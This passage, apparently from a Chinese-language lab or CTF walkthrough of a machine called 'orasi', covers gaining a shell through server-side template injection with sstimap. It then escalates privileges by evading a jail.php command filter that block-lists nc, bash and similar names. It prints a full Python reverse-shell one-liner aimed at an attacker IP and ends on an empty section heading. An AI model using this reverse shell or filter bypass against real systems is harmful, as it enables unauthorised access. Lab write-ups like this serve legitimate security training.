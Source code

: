 **--os-shell** 获取shell
```bash
python sstimap.py -u http://192.168.212.4:5000/sh4d0w$s?l333tt=1 --os-shell
[+] Run commands on the operating system.
posix-linux $ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

下一步吧shell弹过来即可

### 3.3. 反弹shell
![Pasted image 20241206130042](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241206130042.png)
## 4. www-data提权用户kori
```bash
(remote) www-data@orasi:/tmp$ sudo -l
Matching Defaults entries for www-data on orasi:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on orasi:
    (kori) NOPASSWD: /bin/php /home/kori/jail.php *

(remote) www-data@orasi:/tmp$ cat /home/kori/jail.php
<?php
array_shift($_SERVER['argv']);
$var = implode(" ", $_SERVER['argv']);

if($var == null) die("Orasis Jail, argument missing\n");

function filter($var) {
        if(preg_match('/(`|bash|eval|nc|whoami|open|pass|require|include|file|system|\/)/i', $var)) {
                return false;
        }
        return true;
}
if(filter($var)) {
        $result = exec($var);
        echo "$result\n";
        echo "Command executed";
} else {
        echo "Restricted characters has been used";
}
echo "\n";
?>

```

`jail.php` 这里存在一个命令执行。虽然过滤了很多命令。但是我们还可以用启动python 
然后用python进行反弹
```bash
(remote) www-data@orasi:/var/www/html$ sudo -u kori /bin/php /home/kori/jail.php python
Python 2.7.16 (default, Oct 10 2019, 22:02:15)
[GCC 8.3.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.212.3",1888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```
![Pasted image 20241206132822](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241206132822.png)
## 5. kori用户提权irida用户
```bash
```